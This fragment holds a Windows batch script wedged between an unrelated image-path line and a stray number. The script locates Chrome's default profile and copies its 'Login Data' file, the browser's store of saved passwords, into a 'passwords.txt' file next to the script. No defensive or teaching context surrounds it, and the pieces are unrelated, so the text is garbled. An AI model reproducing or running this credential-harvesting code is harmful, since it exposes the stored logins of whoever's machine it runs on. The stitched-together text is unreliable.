 @echo off
setlocal enabledelayedexpansion

set "chromeDataPath=%LocalAppData%\Google\Chrome\User Data\Default"
set "outputFile=%~dp0passwords.txt"

copy "!chromeDataPath!\Login Data" "!outputFile!" /Y


8056546885
